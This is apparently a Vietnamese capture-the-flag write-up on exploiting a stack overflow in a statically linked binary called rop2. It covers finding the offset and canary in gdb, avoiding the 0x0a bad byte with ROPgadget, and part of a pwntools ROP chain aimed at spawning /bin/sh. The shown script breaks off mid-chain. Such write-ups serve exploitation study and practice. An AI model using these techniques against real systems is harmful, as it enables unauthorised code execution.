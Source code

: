 

Dựa vào 2 lần phân tích trên chúng ta có thể đưa ra các hướng exploit như là ret2syscall, ret2text, ROPgadget, ... Tuy nhiên lần này ta sẽ sử dụng ROPgadget cho lẹ nhé Hehe

Đã xác định được hướng đi của mình thì giờ chúng ta sang phần bypass canary và viết ROP, 1 ROP cơ bản như sau : 

Để leak được canary vì là chỉ có statically linked nên canary sẽ không bị thay đổi, nên chúng a có thể mở gdb lên để leak canary như sau : 



Disassemble vuln và đặt breakpoint ở hàm gets, nhập vào 20 ký tự "a".

  

Sử dụng câu lệnh x/100x $esp để show stack frame cho chúng ta quan sát, chúng ta thấy được như sau : 
  + Offset = 20 
  + Canary = 0x080da000
  + Save base pointer = 0xffffd008
Sau đó mới tới phần return address .

Từ đó chúng ta chuyển sang phần viết ROP.
  
```
pop eax ; ret
pop edx ; pop ecx ; pop ebx ; ret
/bin/sh
int80
```


Giờ thì dựa vào đoạn ROP trên chúng ta phải viết ra ROP phù hợp với binnary trên, nên sử dụng câu lệnh sau : 



Tuy nhiên mọi chuyện đâu có dễ dàng như thế, trong pop eax; ret chúng ta có thể thấy 1 byte là 0x0a đây là 1 bad byte đối với hàm gets, vì khi nhận byte này hàm gets sẽ nhận dạng nó là byte xuống dòng và kết thúc cái ROP của chúng ta
Haizz badbyte like badboiz :|


Thế là chúng ta có thể viết 1 cái rop khác không sử dụng pop eax;ret tuy nhiên điều này cần kiến thức về asm khá vững, còn mình thì ...... vừa không vững vừa lười nên mình đã quyết định đi 1 con đường khá táo bạo
sử dụng option bad bytes của tool ROPgadget.

 
 
 Như thế chúng ta đã có được 1 gadget rồi.
 
 Gom 7749 thông tin phân tích được ở trên kia lại thành cái file exploit này nè :D 

```
from pwn import *
from struct import pack


BIN = "./rop2"
 
###ROP  --binary ./rop2 --rop --badbytes "0a"
p = b''

p += pack('<I', 0x0806ee6b) # pop edx ; ret
p += pack('<I', 0x080da060) # @ .data
p += pack('<I', 0x08056334) # pop eax ; pop edx ; pop ebx ; ret
p += b'/bin'
p += pack('<I', 0x080da060) # padding without overwrite edx
p += pack('<I', 0x41414141) # padding
p += pack('<I', 0x08056e65) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806ee6b) # pop edx ; ret
p += pack('<I', 0x080da064) # @ .data + 4
```